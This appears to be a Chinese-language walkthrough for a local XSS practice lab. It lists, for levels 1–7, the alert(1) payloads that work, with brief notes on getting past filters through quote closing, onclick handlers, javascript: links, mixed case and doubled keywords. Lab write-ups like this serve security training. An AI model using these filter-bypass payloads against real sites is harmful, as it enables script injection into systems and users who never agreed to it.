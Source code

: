 # level1

`http://127.0.0.1:1235/xss-lab/level1.php?name=<script>alert(1)</script>`

# level2

`http://127.0.0.1:1235/xss-lab/level2.php?keyword="><script>alert(1)</script><"`

# level3

value处是用单引号闭合的

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240410162421.png)

`'onclick='javascript:alert(1)`

单引号看具体情况加就行

# level4

万能探测语句

`<script>alert(1)</script>`

发现尖括号被替换为空，于是尝试用上一关的方法绕过尖括号。

`"onclick="javascript:alert(1)`

# level5

onclick和script都被过滤了

还可以用`<a></a>`

`"><a href="javascript:alert(1)">`

# level6

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240415153954.png)

大小写绕过

`"><Script>alert(1)</Script>`

# level7

替换为空，所以双写绕过

`"><scrscriptipt>alert(1)</scrscriptipt>`
